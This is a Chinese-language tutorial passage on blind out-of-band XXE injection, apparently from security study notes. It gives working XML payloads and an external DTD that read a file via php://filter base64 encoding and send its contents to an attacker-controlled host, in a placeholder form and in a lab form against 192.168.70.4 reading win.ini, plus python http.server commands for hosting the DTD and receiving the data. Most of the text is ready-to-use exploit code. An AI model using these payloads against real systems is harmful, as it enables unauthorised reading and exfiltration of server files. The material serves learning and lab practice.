 #### 思路

如果在**响应包中无回显**又想要读取敏感文件时，可以通过OOB带外注入的方法通过**外带数据**通道来提取数据，构造payload如下：

##### payload

```XML
<!DOCTYPE test[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=读取的文件">
    <!ENTITY % dtd SYSTEM "http://攻击者IP:端口/a.dtd">
    %dtd;
    %xxe;
]>
```

##### a.dtd

攻击机部署`a.dtd`文件内容：

```XML
<!ENTITY % test "<!ENTITY &#x25; xxe SYSTEM 'http://攻击者IP:监听端口/?%file;'>">
%test;
```

#### 练习

##### payload

```xml
<!DOCTYPE test[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/Windows/win.ini">
    <!ENTITY % dtd SYSTEM "http://192.168.70.4:1234/a.dtd">
    %dtd;
    %xxe;
]>
```

##### a.dtd内容

```xml
<!ENTITY % test "<!ENTITY &#x25; xxe SYSTEM 'http://192.168.70.4:7777/?%file;'>">
%test;
```

##### 开启http服务

###### 攻击机提供dtd文件端口

```python
python3 -m http.server 1234
```

![image-20240902165310075](https://image.201068.xyz/assets/27.XXE/image-20240902165310075.png)

###### 攻击机监听端口

```python
python3 -m http.server 7777
```
